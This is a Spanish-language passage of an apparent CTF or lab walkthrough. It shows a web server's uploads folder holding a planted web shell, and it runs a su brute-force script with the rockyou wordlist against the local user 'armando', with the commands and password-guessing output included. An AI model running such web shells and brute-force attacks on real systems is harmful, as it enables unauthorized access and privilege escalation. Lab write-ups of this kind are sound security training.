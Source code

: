 ```java
drwxr-xr-x 1 www-data www-data       124 Jan 26 04:39 .
drwxr-xr-x 1 www-data www-data       118 Dec 26 04:03 ..
-rwxr-xr-x 1 www-data www-data     21752 Dec 20 13:48 .shell.php
-rwxr-xr-x 1 www-data www-data      9879 Dec 20 13:48 index.php
-rwxr-xr-x 1 www-data www-data    271755 Dec 22 19:52 memaso.png
-rw-r--r-- 1 www-data www-data 139921497 Dec  8  2021 rockyou.txt
-rw-r--r-- 1 www-data www-data     20974 Jan 26 03:34 shell.php
-rw-r--r-- 1 www-data www-data      1600 Jan 26 04:36 su.sh
-rwxr-xr-x 1 www-data www-data        25 Dec 20 13:48 test.txt
```

Así pues ya tenemos los archivos:
- **`shell.php`** : WebShell desde donde ejecutaremos el archivo `su.sh`.
- **`su.sh`** : Archivo bash de [Sudo_Bruteforce](https://github.com/j0rd1s3rr4n0/Sudo_BruteForce)(También se puede usar el binario)
- **`rockyou.txt`** : WordList que se usará para el ataque de diccionario al usuario `armando`.

Vamos a proceder a ejecutar el archivo
```java
www-data@861ac52240d6:…/html/uploads# bash su.sh

Uso: su.sh USUARIO DICCIONARIO
Se deben especificar tanto el nombre de usuario como el archivo de diccionario.

www-data@861ac52240d6:…/html/uploads# bash su.sh armando rockyou.txt >> result.txt 2> errors.txt
```
Ahora podemos ir observando si el archivo result.txt contiene la cadena `"encontrada para el usuario"` 

```java
www-data@b832447fdf7a:…/html/uploads# bash su.sh armando rockyou.txt

***********************************************
*                                             *
*          ██████╗ ██████╗ ██╗   ██╗          *
*         ██╔════╝██╔═══██╗██║   ██║          *
*         ██║     ██║   ██║██║   ██║          *
*         ██║     ██║   ██║╚██████╔╝          *
*         ╚═╝     ╚═╝   ╚═╝ ╚═════╝           *
*                                             *
*       Bienvenido a BruteForce SU            *
*       ¡Hackea con responsabilidad!          *
***********************************************

Probando contraseña [Línea 1]: 123456
Probando contraseña [Línea 2]: 12345
Probando contraseña [Línea 3]: 123456789
Probando contraseña [Línea 4]: password
Probando contraseña [Línea 5]: iloveyou
Probando contraseña [Línea 6]: princess
Probando contraseña [Línea 7]: 1234567
Probando contraseña [Línea 8]: rockyou
Probando contraseña [Línea 9]: 12345678
Probando contraseña [Línea 10]: abc123
Probando contraseña [Línea 11]: nicole
Probando contraseña [Línea 12]: daniel
Probando contraseña [Línea 13]: babygirl
Probando contraseña [Línea 14]: monkey
Probando contraseña [Línea 15]: lovely


[...]

Probando contraseña [Línea 8573]: love you
Probando contraseña [Línea 8574]: lavalamp
```